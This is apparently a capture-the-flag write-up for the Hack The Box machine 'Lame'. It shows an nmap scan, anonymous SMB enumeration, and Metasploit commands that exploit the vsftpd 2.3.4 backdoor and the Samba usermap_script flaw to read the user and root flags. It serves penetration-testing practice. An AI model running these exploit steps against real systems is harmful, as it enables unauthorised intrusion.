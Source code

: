 # Lame

## Port Scanning

```bash
nmap -T4 -sV -p- --min-rate 1000 --open -oN port_scan.txt 10.10.10.3

Nmap scan report for 10.10.10.3
Host is up (0.034s latency).
Not shown: 65529 filtered tcp ports (no-response), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```



## SMB Enumeration

First things first we can try to access via SMB as Anonymous

```bash
smbclient -L 10.10.10.3 -N
```

<figure><img src="../../../.gitbook/assets/image (237).png" alt=""><figcaption></figcaption></figure>

There is a juicy dir, let's go in.

```bash
smbclient -N //10.10.10.3/tmp
```

<figure><img src="../../../.gitbook/assets/image (238).png" alt=""><figcaption></figcaption></figure>

## vsftp 2.3.4 Exploit

I've notice that the version of the vsftp installed is vulnerable to a Backdoor Command Execution exploit.

Start metasploit and run the exploit

<pre class="language-bash" data-title="Metasploit module"><code class="lang-bash">service postgresql start &#x26;&#x26; msfconsole
<strong>
</strong><strong>use exploit/unix/ftp/vsftpd_234_backdoor
</strong>set RHOSTS 10.10.10.3

exploit
</code></pre>

And we got a Meterpreter session.

## Samba 3.0.20 Username map script exploit

There is a vulnerability in this version of samba that allow us to execute commands.

{% code title="Metasploit module" %}
```bash
service postgresql start && msfconsole

use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3

run
```
{% endcode %}

### User.flag

Print the user flag.

```bash
cat /home/makis/user.txt
```

### Root.flag

Print the root flag.

```bash
cat /root/root.txt
```
